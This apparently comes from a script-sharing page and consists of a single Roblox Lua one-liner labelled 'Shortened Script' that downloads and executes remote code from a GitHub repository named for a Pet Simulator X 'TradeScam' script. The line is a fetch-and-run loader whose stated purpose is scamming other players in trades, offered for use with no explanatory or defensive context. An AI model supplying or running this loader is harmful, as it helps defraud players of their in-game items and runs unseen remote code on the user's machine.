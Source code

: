 Shortened Script = 

loadstring(game:HttpGet("https://raw.githubusercontent.com/Slekrow999/Pet-Simulator-X-TradeScam-Script-Raw/main/TradeScamScriptRAW.lua", true))()
